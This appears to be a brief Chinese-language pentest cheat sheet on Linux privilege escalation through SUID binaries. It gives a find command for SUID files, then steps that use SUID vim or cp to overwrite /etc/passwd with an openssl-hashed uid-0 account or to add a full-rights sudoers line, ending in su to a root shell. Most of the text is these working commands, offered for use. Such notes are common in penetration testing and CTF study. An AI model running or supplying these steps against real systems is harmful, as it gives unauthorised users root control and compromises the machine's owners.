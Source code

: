 透過 suid 可使得 user 在執行時有跟 owner 一樣的權力 </br>
倘若該文件屬於 root 則可以執行很多事 </br>

首先，找尋存在 suid 的文件 </br>

```
find / -perm -u=s [-type f] -print 2>/dev/null
```


<h1>常見類型</h1> </br>


<h2>1. vim </h2></br>

常用來改 /etc/passwd 和 /etc/sudoers </br>


<h3> 改 /etc/passwd </h3> </br>

創建一個具有 root 權限的 user，再 su 過去 </br>

```
openssl passwd -1 -salt username password </br>
```

得到 ： $1$username$MkaiE3rS.z62Rvejgmc.Z/ </br>

將 username:$1$username$MkaiE3rS.z62Rvejgmc.Z/:0:0:root:/root:/bin/bash 加到 passwd </br>

接著，su username 輸入密碼 password 就能拿到有 root 權限的 shell 了 </br>

<h3> 改 /etc/sudoers</h3> </br>

```
guest	ALL=(ALL:ALL) ALL
```


<h2> 2. cp </h2></br>

為了使 owner 為自己 (e.g. guest) ，先 touch passwd 再 cp </br>
```
touch passwd
cp /etc/passwd [--no-preserve=mode] . 
```

一樣，新建一個具有 root 權限的 user，並將 passwd cp 回去 (覆蓋原本的)，最後再 su </br>
```
cp passwd /etc/passwd
su username
```

其他的，等碰到再新增</br>
